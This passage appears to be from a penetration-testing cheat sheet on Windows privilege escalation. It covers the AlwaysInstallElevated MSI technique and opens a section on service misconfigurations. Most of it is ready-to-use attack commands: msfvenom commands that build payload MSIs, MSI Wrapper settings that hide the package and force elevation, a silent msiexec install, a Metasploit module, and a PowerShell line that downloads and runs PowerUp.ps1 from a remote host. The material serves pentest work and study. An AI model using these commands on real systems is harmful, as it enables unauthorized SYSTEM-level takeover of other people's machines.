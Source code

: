 Refer to the `[General] File transfer` note for file transfer techniques to
upload the MSI on the targeted system.

```
# msfvenom can be used to generate a MSI starting a Metasploit payload or using a provided binary.
msfvenom -p <PAYLOAD> -f msi-nouac > <MSI_FILE>
msfvenom -p windows/exec cmd="<BINARY_PATH>" -f msi-nouac > <MSI_FILE>

# MSI Wrapper procedure to generate an MSI that will execute the given binary under elevated privileges:
Executable (2nd page onward)      -> specify the executable to be executed
                                  -> Compression of wrapped file: None
Visibility in Apps & features     -> Visibility of MSI package: Hidden
Security and User context         -> Security context for lauching the executable: Windows Installer
                                  -> Elevation when launching the executable: Always elevate
                                  -> MSI installation context: Per User
                                  -> Check MSI package requires elevation
Application Ids                   -> Upgrade code: Create New.
-> Next -> [...] -> Build.

# Installs the specifed MSI file.
# /quiet: no messages displayed, /qn: no GUI, /i runs as current user.
msiexec /quiet /qn /i <MSI_PATH>

# (PowerShell) PowerSploit's PowerUp Write-UserAddMSI
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1")
Write-UserAddMSI

# Requires a meterpreter session.
msf> use exploit/windows/local/always_install_elevated
```

### Services misconfigurations

In Windows NT operating systems, a Windows service is a computer program that
operates in the background, similarly in concept to a Unix daemon.

A Windows service must conform to the interface rules and protocols of the
`Service Control Manager`, the component responsible for managing Windows
services. Windows services can be configured to start with the operating
system, manually or when an event occur.

Vulnerabilities in a service configuration could be exploited to execute code
under the privileges of the user starting the service, often
`NT AUTHORITY\SYSTEM`.

###### Windows services enumeration

The Windows built-ins `sc` and `wmic` can be used to enumerate the services
configured on the target system. The Windows built-in graphical utility
`services.msc` can alternatively be used as well.
